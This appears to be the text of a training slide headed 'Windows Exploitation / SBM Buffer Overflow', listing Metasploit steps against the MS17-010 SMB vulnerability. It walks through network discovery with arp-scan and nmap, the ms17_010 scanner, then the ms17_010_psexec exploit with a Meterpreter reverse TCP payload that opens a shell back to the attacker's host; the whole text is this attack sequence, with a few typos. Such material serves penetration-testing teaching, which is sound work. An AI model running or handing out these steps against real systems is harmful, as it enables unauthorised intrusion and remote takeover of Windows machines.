

# Windows Exploitation / SBM Buffer Overflow
Msfdb init
Msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOST
Run/exploit
check vuln >> back
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/reverse_tcp
Set LHOST /RHOST
Run/exploit
Sudo arp-scan –L
Nmap <ip add> -Pn